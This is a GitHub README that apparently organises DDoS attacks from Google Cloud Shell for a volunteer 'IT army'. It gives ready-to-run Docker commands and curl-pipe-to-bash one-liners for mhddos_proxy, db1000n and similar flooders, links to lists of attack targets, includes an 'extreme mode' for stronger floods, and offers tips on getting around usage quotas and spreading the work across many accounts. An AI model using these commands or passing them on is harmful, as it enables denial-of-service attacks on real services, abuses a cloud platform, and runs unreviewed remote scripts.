 ## [DDoS whith Google Cloud Shell](https://sites.google.com/view/operationrussia/googleshell)
#### Scripts for durable cloudshell session. Test!
#
### Use https://shell.cloud.google.com/?fromcloudshell=true&show=terminal
### from PC and smartphones (*all devices with browser*;)
#
#### Browser mode (*suitable for use 1 to 20-30 accounts from one PC, if more - [here](https://github.com/Operation-Stop-russia/Gcloudshell_ddos/tree/main/GShellSDK#readme)*)
:exclamation:• **It is recommended to use 1 terminal per account**.    
:exclamation:• **GShell sessions are capped at 12 hours. You can start a new session immediately after terminate**    
:exclamation:• Please note that **Weekly usage quotas, 1 account - 50 hours in normal mode and up to 50 hours in ephemeral mode** (*until the quota expires in the default mode - turn on the ephemeral mode (set - "Always") and get 10-50 hours of use during the current week*)    
:exclamation:• In [Google Cloud Shell](https://shell.cloud.google.com/?fromcloudshell=true&show=terminal) you can disable usage statistics in settings.    
• **To restore Cloud Shell** - remove all files from your home directory, command: `sudo rm -rf $HOME`, after - in the Cloud Shell menu, click the three dots menu icon, then click "Restart" *(A new VM will be provisioned and the home directory will be restored to its default state)*
#
### Stable sessions (*90%*)
:white_check_mark:**Command to install and run mhddos_proxy** (*Docker*):
```
sudo docker run -it --rm  --cpus="0.7" --pull always ghcr.io/porthole-ascend-cinnamon/mhddos_proxy:old -c https://raw.githubusercontent.com/Operation-Stop-russia/targets_lists/main/L7.lst -t 3000 --vpn 1 --http-methods GET --rpc 500
```
:white_check_mark:**Command to install and run mhddos_proxy** (Bash):
```
curl -L https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/Start_L7m.sh | bash
```
:white_check_mark:**Command to install and run db1000n** (*Docker*):
```
sudo docker run -it --rm  --cpus="0.5" --rm -it --pull always ghcr.io/arriven/db1000n
```
:white_check_mark: **Command to install and run db1000n** (Bash):
```
curl -L https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/db1000n_GShell.sh | bash
``` 
:white_check_mark:**Command to install and run UA-Cyber-SHIELD** (*Docker*):
```
sudo docker run -it --rm  --cpus="0.5" ghcr.io/opengs/uashield:master --workers=256 --withProxy=true
```
:white_check_mark:**Command to install and run mhddos_proxy** *using only proxies*  (Bash):
```
curl -L https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/Start_L7m-proxy_only.sh | bash
```
#
#
### Tests / elaborations / experiments. 
**Unstable sessions; are terminated** (need constantly checked)      
  
:grey_question:**Layer4:**    
```
curl -L https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/L4_tcp.sh | bash
```
```
curl -L https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/Start_L4.sh | bash    
```
:grey_question:**All targets:**    
```
curl -L https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/ALL.sh | bash
```
:grey_question:***--itarmy*:**    
```
curl -L https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/itarmy.sh | bash
```
:grey_question:**Split terminal (Layer7+Layer4):**    
```
curl -L https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/Start_dualShell.sh | bash
```    
#
### EXTREME MODE:zap:NoLimits (mhddos_proxy commands without parameters)
 :exclamation: **Attacks are powerful but short + high probability of getting banned** (*the ban is usually temporary and only applies to access to GShell*)    
  
:zap:***--itarmy*:**
```
curl -L https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/X/itarmyX.sh | bash
```
:zap:**Layer4:**    
```
curl -L https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/X/tcpX.sh | bash
```
:zap:**All targets:**    
```
curl -L https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/X/ALLx.sh | bash
```
#
#
#### Target lists
https://raw.githubusercontent.com/Operation-Stop-russia/targets_lists/main/L7.lst
https://raw.githubusercontent.com/Operation-Stop-russia/targets_lists/main/L7m.lst    
https://raw.githubusercontent.com/Operation-Stop-russia/targets_lists/main/L4_tcp.lst    
https://raw.githubusercontent.com/Operation-Stop-russia/targets_lists/main/AllTargets.lst     
#
#
[IT ARMY of Ukraine](https://t.me/itarmyofukraine2022)
